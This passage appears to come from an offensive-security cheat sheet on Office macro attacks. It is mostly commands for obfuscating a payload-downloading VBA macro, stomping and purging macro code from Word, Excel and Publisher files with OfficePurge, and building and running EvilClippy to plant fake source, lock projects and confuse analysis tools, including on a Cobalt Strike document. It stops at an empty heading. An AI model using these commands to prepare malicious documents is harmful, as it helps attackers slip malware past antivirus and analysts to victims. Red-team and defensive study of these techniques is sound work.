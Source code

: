

## VBA Obfuscation

```ps1
# https://www.youtube.com/watch?v=L0DlPOLx2k0
$ git clone https://github.com/bonnetn/vba-obfuscator
$ cat example_macro/download_payload.vba | docker run -i --rm bonnetn/vba-obfuscator /dev/stdin
```

## VBA Purging

**VBA Stomping**: This technique allows attackers to remove compressed VBA code from Office documents and still execute malicious macros without many of the VBA keywords that AV engines had come to rely on for detection. == Removes P-code. 

:warning: VBA stomping is not effective against Excel 97-2003 Workbook (.xls) format.

### OfficePurge
* https://github.com/fireeye/OfficePurge/releases/download/v1.0/OfficePurge.exe

```powershell
OfficePurge.exe -d word -f .\malicious.doc -m NewMacros
OfficePurge.exe -d excel -f .\payroll.xls -m Module1
OfficePurge.exe -d publisher -f .\donuts.pub -m ThisDocument
OfficePurge.exe -d word -f .\malicious.doc -l
```


### EvilClippy

> Evil Clippy uses the OpenMCDF library to manipulate CFBF files. 
> Evil Clippy compiles perfectly fine with the Mono C# compiler and has been tested on Linux, OSX and Windows.
> If you want to manipulate CFBF files manually, then FlexHEX is one of the best editors for this.

```ps1
# OSX/Linux
mcs /reference:OpenMcdf.dll,System.IO.Compression.FileSystem.dll /out:EvilClippy.exe *.cs 
# Windows
csc /reference:OpenMcdf.dll,System.IO.Compression.FileSystem.dll /out:EvilClippy.exe *.cs 

EvilClippy.exe -s fake.vbs -g -r cobaltstrike.doc
EvilClippy.exe -s fakecode.vba -t 2016x86 macrofile.doc
EvilClippy.exe -s fakecode.vba -t 2013x64 macrofile.doc

# make macro code unaccessible is to mark the project as locked and unviewable: -u
# Evil Clippy can confuse pcodedmp and many other analysis tools with the -r flag.
EvilClippy.exe -r macrofile.doc
```


## VBA - Offensive Security Template
